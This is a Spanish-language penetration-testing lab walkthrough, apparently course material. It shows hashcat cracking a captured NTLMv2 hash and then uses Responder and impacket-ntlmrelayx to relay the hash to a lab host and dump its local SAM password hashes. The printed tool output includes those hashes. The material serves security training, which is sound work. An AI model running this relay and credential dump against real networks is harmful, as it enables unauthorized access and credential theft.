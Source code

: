 ```shell-session
Hash.Target......: ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc...000000
Time.Started.....: Mon Apr 11 16:49:34 2022 (1 sec)
Time.Estimated...: Mon Apr 11 16:49:35 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1122.4 kH/s (1.34ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 75776/14344386 (0.53%)
Rejected.........: 0/75776 (0.00%)
Restore.Point....: 73728/14344386 (0.51%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: compu -> kodiak1

Started: Mon Apr 11 16:49:34 2022
Stopped: Mon Apr 11 16:49:37 2022
```

Se descifró el hash NTLMv2. La contraseña es P@ssword. Si no podemos descifrarlo, podemos retransmitir el hash capturado a otra máquina usando impacket-ntlmrelayx o Responder MultiRelay.py. Veamos un ejemplo con impacket-ntlmrelayx.

Primero, debemos desactivar SMB en nuestro archivo de configuración de Responder (/etc/responder/Responder.conf).
```
Polika4RM@htb[/htb]$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

Tomo esos HASHES que recibý y en vez de descifrar la contraseña simplemente la renvío a un equipo objetivo que yo elija. Normalmente es un servidor en la red. Pongo --no-http-server para no levantar un servidor http.
```shell-session
Polika4RM@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

<SNIP>

[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections

[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, attacking target smb://10.10.110.146
[*] Authenticating against smb://10.10.110.146 as /ADMINISTRATOR SUCCEED
[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, but there are no more targets left!
[*] SMBD-Thread-5: Connection from /ADMINISTRATOR@10.10.110.1 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xeb0432b45874953711ad55884094e9d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92512f2605074cfc341a7f16e5fabf08:::
demouser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
test:1001:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Done dumping SAM hashes for host: 10.10.110.146
[*] Stopping service RemoteRegistry
```